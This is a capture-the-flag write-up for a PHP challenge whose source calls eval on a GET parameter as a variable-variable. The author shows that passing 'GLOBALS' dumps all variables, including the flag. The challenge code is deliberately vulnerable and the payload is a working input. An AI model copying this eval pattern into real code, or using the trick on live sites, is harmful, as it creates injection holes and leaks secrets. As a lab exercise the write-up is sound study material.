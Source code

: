 |Date|Version|
|:-:|:-:|
|2019/1/2|1.0|

## Writeup
1. The source code was given below:
```
flag In the variable !
<?php
error_reporting(0);
include "flag1.php";
highlight_file(__file__);
if(isset($_GET['args'])){
    $args = $_GET['args'];
    if(!preg_match("/^\w+$/",$args)){
        die("args error!");
    }
    eval("var_dump($$args);");
}
?>
```
2. As the code implied, *var_dump()* will output the variable called *$args*, which is just what we send with GET method.
3. Also, *args* will first be checked with regex
```
^\w+$
```
which means the whole string is composed only by letters, numbers and '_';

4. So it is clear that the payload we provide with GET should be:
    - letters, numbers, '-' only
    - the name of particular variable containing the flag

The global variable ***GLOBALS*** will list *ALL* variables and their values existed in current page and pages included.
***GLOBALS*** will show these in key-value pairs, and *flag* could be found inside:
```
array(7) { 
    ["GLOBALS"]=> *RECURSION* 
    ["_POST"]=> array(0) { } 
    ["_GET"]=> array(1) { ["args"]=> string(7) "GLOBALS" } 
    ["_COOKIE"]=> array(0) { } 
    ["_FILES"]=> array(0) { } 
    ["ZFkwe3"]=> string(38) "flag{92853051ab894a64f7865cf3c2128b34}" 
    ["args"]=> string(7) "GLOBALS" 
}
```
<br/>
<br/>

BTW, the key of real *flag* seems a little bit unpredictable.
Well it might be so naive to assume the flag would be called *flag*. :)